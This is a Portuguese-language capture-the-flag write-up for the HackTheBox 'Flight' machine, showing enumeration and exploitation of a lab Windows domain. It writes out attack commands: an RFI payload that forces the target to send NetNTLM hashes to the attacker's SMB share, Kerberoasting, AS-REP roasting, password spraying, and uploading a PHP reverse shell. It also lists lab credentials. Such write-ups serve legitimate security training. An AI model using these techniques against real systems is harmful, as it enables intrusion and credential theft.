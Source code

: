 # Flight

## Enumeration

Nmap script

![qownnotes-media-VMuwah](../../.gitbook/assets/qownnotes-media-VMuwah.png)

![qownnotes-media-eKewwb](../../.gitbook/assets/qownnotes-media-eKewwb.png)

UDP scan

![qownnotes-media-VMgxgZ](../../../media/qownnotes-media-VMgxgZ.png)

Full TCP scan

![image](../../.gitbook/assets/image%20(1).png)

Então temos:

DNS HTTP Kerberos RPC SMB LDAP

### HTTP

![qownnotes-media-zNgBXB](../../media/qownnotes-media-zNgBXB.png)

![qownnotes-media-TwGaZc](../../media/qownnotes-media-TwGaZc.png)

![qownnotes-media-VveKHl](../../media/qownnotes-media-VveKHl.png)

![qownnotes-media-qQXkSz](../../media/qownnotes-media-qQXkSz.png) =======> Possible entry point

Dando sequência após a enumeração dos demais. Nada encontrado exceto por este subdomínio:

```
school.flight.htb
```

### SMB

![qownnotes-media-bkzCgk](../../media/qownnotes-media-bkzCgk.png)

```
g0.flight.htb
```

![qownnotes-media-DQoVIc](../../media/qownnotes-media-DQoVIc.png)

### RPC

![qownnotes-media-kBtyxd](../../media/qownnotes-media-kBtyxd.png)

### LDAP

![qownnotes-media-LnGbjN](../../media/qownnotes-media-LnGbjN.png)

### Kerberos

```
kerbrute userenum --domain flight.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.11.187
```

![qownnotes-media-RAnyke](../../media/qownnotes-media-RAnyke.png)

### DNS

![qownnotes-media-OxlPjV](../../media/qownnotes-media-OxlPjV.png)

![qownnotes-media-nyDtLD](../../media/qownnotes-media-nyDtLD.png)

![qownnotes-media-OyCEfo](../../media/qownnotes-media-OyCEfo.png)

### HTTP continue

```
school.flight.htb
```

![qownnotes-media-iUmICa](../../media/qownnotes-media-iUmICa.png)

![qownnotes-media-kMffXk](../../media/qownnotes-media-kMffXk.png)

Aqui eu notei que o que muda é o parâmetro "view" da URL, então eu tentei esse mesmo teste, mas de maneira diferente:

```
ffuf -c -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://school.flight.htb?view=FUZZ -e ".php,.html" -fs 1102
```

![qownnotes-media-XXURur](../../media/qownnotes-media-XXURur.png)

![qownnotes-media-puTALa](../../media/qownnotes-media-puTALa.png)

As que vieram diferentes foram:

![qownnotes-media-KrRjij](../../media/qownnotes-media-KrRjij.png)

```
g0.flight.htb
```

![qownnotes-media-CDlMtu](../../media/qownnotes-media-CDlMtu.png)

Deu em nada aqui

No entanto, se formos parar para perceber, me parece que isso pode estar sendo consultado no banco de dados... Vamos para um outro teste :

#### SQLi

```
ffuf -c -ic -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -u http://school.flight.htb?view=FUZZ -e ".php,.html" -fs 7069,1170,1102
```

![qownnotes-media-NHAXrq](../../media/qownnotes-media-NHAXrq.png)

![qownnotes-media-RlSMVb](../../media/qownnotes-media-RlSMVb.png)

![qownnotes-media-SdlWrO](../../media/qownnotes-media-SdlWrO.png)

![qownnotes-media-HtZCrq](../../media/qownnotes-media-HtZCrq.png)

#### LFI

PWNED!

![qownnotes-media-GeVlbb](../../media/qownnotes-media-GeVlbb.png)

## Exploitation

Para conseguir explorar essa vulnerabilidade, testei algumas coisas, no entanto, imaginei que fosse algum arquivo que eu deveria extrair e , na verdade se tratava de um RFI e, sendo assim, seria possível obter o hash de senha por meio do seguinte payload:

```
impacket-smbserver -smb2support smb .

http://school.flight.htb/index.php?view=//10.10.14.14/smb/test.txt
```

Dessa forma eu forço o sistema a me enviar o hash netNTLM da máquina e eu posso extraí-lo para quebrá-lo e dar sequência no ataque:

![qownnotes-media-hMblhO](../../media/qownnotes-media-hMblhO.png)

![qownnotes-media-JCOaeL](../../media/qownnotes-media-JCOaeL.png)

Tentativa com Kerberoasting

```
impacket-GetUserSPNs 'flight.htb/svc_apache:S@Ss!K@*t13' -dc-ip 10.10.11.187 -request
```

As Rep Roasting:

```
impacket-GetNPUsers -dc-ip 10.10.11.187 flight.htb/ -usersfile users.txt -format john -outputfile hashes

enum4linux -u svc_apache -p 'S@Ss!K@*t13' 10.10.11.187
 
```

Comecei a entrar em vários diretórios, mas de novo sem saber exatamente o que procurar no SMB, exceto pelo Groups.xml Enumerei pelo bloodhound:

```
 bloodhound-python -u svc_apache -p 'S@Ss!K@*t13' -d flight.htb -v --zip -c All -dc g0.flight.htb -ns 10.10.11.187
 
```

Sem sucesso. Password Spray:

```
crackmapexec ldap 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue

crackmapexec winrm 10.10.11.187 -u users.txt -p passwords.txt --continue

crackmapexec winrm 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue
```

![qownnotes-media-ZJWfVt](../../media/qownnotes-media-ZJWfVt.png)

Continuando a enumeração:

```
crackmapexec smb 10.10.11.187 -u 's.moon' -p 'S@Ss!K@*t13' --shares
```

![qownnotes-media-Swipnb](../../media/qownnotes-media-Swipnb.png)

Nesse momento, é interessante considerar a possibilidade de explorar o serviço via SMB, dado que temos autorização de escrita em um dos compartilhamentos listados. Temos alguns vetores para este caso,sendo eles documentados [aqui](../../3\_Exploitation/SMB.md)

Utilizando um desktop.ini com o exemplo obtido na referência acima, conseguimos a credencial do c.bum

c.bum:Tikkycoll\_431012284

Que tem acesso de escrita em uma pasta compartilhada também chamada Web:

```
crackmapexec smb 10.10.11.187 -u c.bum -p 'Tikkycoll_431012284' --shares
```

Depois disso, basta subir uma shell reversa em PHP para conseguir execução de comandos na máquina:

```
smbclient -U flight.htb/c.bum //10.10.11.187/Web -c "put revshell.php"
```
